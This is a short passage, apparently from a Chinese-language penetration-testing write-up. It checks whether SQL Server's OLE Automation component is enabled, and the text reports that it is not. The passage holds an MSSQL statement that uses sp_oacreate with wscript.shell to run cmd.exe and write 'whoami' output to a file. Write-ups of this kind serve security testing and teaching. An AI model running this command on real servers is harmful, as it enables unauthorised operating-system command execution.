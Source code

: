 <img src="assets/V3gXcNTl8LZfqOM.png" alt="image-20230321123005904" style="zoom:50%;" />

### 4.3.2. 判断组件是否开启

通过测试发现组件并未开启。

```mssql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\1.txt'
```

<img src="assets/veBtV7EhfSgFjZm.png" alt="image-20230321123433391" style="zoom:50%;" />
